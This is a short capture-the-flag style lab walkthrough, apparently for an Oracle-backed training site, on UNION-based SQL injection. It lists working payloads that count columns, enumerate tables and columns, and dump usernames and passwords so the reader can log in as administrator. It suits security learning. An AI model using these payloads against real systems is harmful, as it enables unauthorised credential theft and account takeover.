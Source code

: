 ## Solution steps

- Open Burp suite and set-up proxy.
- Determine the number of columns that are being returned by the query and which columns contain text data.
- Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: `'+UNION+SELECT+'a','b'+FROM+dual--`
- Use the following payload to retrieve the list of tables in the database: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
- Find the name of the table containing user credentials: `USERS_SIGBSQ`
- Use the following payload to retrieve the details of the columns in the table: `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_SIGBSQ'--`
- Find the names of the columns containing usernames and passwords: `USERNAME_UGZFIJ` `PASSWORD_CVKYGH`
- Use the following payload to retrieve the usernames and passwords for all users: `'+UNION+SELECT+USERNAME_UGZFIJ,+PASSWORD_CVKYGH+FROM+USERS_SIGBSQ--`
- Find the password for the `administrator` user, and use it to log in.
